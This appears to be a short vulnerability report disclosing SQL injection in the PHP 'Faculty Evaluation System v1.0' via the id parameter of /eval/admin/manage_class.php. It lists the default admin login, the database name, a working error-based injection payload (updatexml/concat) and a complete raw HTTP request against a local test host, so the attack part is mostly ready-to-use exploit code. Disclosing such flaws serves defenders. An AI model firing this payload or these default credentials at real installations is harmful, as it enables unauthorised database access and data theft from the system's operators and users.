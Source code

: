 # Faculty Evaluation System v1.0 by oretnom23 has SQL injection

Admin account password： admin@admin.com/admin123
 
BUG_Author: acmglz

vendors: https://www.sourcecodester.com/php/14635/faculty-evaluation-system-using-phpmysqli-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /eval/admin/manage_class.php?id=

Vulnerability location: /eval/admin/manage_class.php?id=, id

dbname =evaluation_db

[+] Payload: /eval/admin/manage_class.php?id=1%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id

```sql
GET /eval/admin/manage_class.php?id=1%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=lrrse02i69soj9l3lnarhnd9ck
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/233827512-8df0c225-b04d-4931-a465-f9857f55e879.png)
